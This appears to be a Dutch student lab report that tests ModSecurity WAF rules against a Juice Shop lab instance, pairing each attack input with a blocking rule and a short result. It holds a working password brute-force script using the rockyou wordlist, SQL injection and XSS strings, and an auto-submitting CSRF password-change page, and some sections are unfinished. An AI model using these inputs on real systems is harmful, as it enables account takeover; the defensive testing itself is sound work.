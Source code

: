 # 1. Brute Force aanval;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```bash
    #!/bin/bash

    # Path to the wordlist
    WORDLIST="/usr/share/wordlists/rockyou.txt"

    # Target URL and email
    URL="http://10.2.0.145/rest/user/login"
    EMAIL="a@a.a"

    # Loop through each password in the wordlist
    while IFS= read -r PASSWORD; do
        echo "Trying password: $PASSWORD"
        
        # Send the curl request
        RESPONSE=$(curl -s -X POST "$URL" \
            -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
            -H 'Accept: application/json, text/plain, */*' \
            -H 'Accept-Language: en-US,en;q=0.5' \
            -H 'Accept-Encoding: gzip, deflate' \
            -H 'Referer: http://10.2.0.145/' \
            -H 'Content-Type: application/json' \
            -H 'Origin: http://10.2.0.145' \
            -H 'Connection: keep-alive' \
            -H 'Cookie: language=en; welcomebanner_status=dismiss' \
            -H 'Priority: u=0' \
            --data-raw "{\"email\":\"$EMAIL\",\"password\":\"$PASSWORD\"}")

        # Check the response for success (adjust the condition based on the application's behavior)
        if [[ "$RESPONSE" != *"Invalid email or password"* ]]; then
            echo "Success! Password found: $PASSWORD"
            echo "Response: $RESPONSE"
            break
        fi
    done < "$WORDLIST"
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule IP:BLOCKED "@eq 1" "id:1005,phase:1,de ny,status:403,msg:'Repeat offender blocked'"
    SecAction "id:1006,phase:5,deprecatevar:ip.blocked=1"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;



  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  Tijdens een manuele

# 2. SQL injection;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```sql
    ' OR 'a'='a
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule ARGS "@contains sql" "id:1002,phase:2,deny,status:403,msg:'SQL injection blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  ![sql injection blocked](sql_injection_blocked.png)

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben geprobeerd om een SQL aanval manueel uit te voeren. De SQL injection wordt geblokkeerd.


# 3. Cross site scripting;
  
  ### De input die je gebruikt om de WAF-regel te testen;

  ```javascript
    <script>alert('XSS attack')</script>
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule ARGS "@contains script" "id:1001,phase:2,deny,status:403,msg:'XSS attack blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  ![xss attack blocked](xss_attack_blocked.png)

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben een XSS aanval geprobeerd uit te voeren. Deze wordt geblokkeerd.

# 4. CSRF aanval;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```html
  <html>
    <body>
      <h1>🎉 Win een gratis Juice Shop waardebon! 🎉</h1>

      <form
        id="csrf-form"
        action="http://localhost:80/#/privacy-security/change-password"
        method="POST"
      >
        <input type="hidden" name="new" value="gehackt123" />
        <input type="hidden" name="repeat" value="gehackt123" />
        <input type="hidden" name="current" value="" />
      </form>

      <script>
        window.onload = function () {
          // Methode 1: Form submit
          document.getElementById("csrf-form").submit();

          // Methode 2: Fetch API
          fetch("http://localhost:80/#/privacy-security/change-password", {
            method: "POST",
            headers: {
              "Content-Type": "application/json",
            },
            body: JSON.stringify({
              new: "gehackt123",
              repeat: "gehackt123",
              current: "",
            }),
            credentials: "include",
          });
        };
      </script>
    </body>
  </html>
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule REQUEST_METHOD "POST" "id:2001,phase:2,chain,deny,status:403,msg:'CSRF token missing or invalid'"
    SecRule ARGS_NAMES "!@contains csrf_token"
  ```
   
  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijd blijkt dat er een aanval werd tegengehouden;

  ![alt text](csrf_attack-blocked.png)

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  Het wachtwoord dat we probeerden te wijzigen was "gehackt123" en deze wordt geblokkeerd.

# 5. GeoIP blocking (buiten België)
  ### De input die je gebruikt om de WAF-regel te testen;

  ```bash (van buiten België)
    curl -v http://example.com
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule GEO:COUNTRY_CODE "!@streq BE" "id:1004,phase:1,deny,status:403,msg:'Non-BE IP blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  ![non-be_ip_blocked](non_be_ip_blocked.png)

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben een VPS in Brazilie gebruikt dus de request werd geblokkeerd.

# 5. Blokkeren van ‘repeat offenders’
  ### De input die je gebruikt om de WAF-regel te testen;

  ```bash
    curl -v http://example.com
  ``` 

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule IP:BLOCKED "@eq 1" "id:1005,phase:1,deny,status:403,msg:'Repeat offender blocked'"
    SecAction "id:1006,phase:5,deprecatevar:ip.blocked=1"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;
  ### Een uitleg waarom de WAF-regel al dan niet werkt;
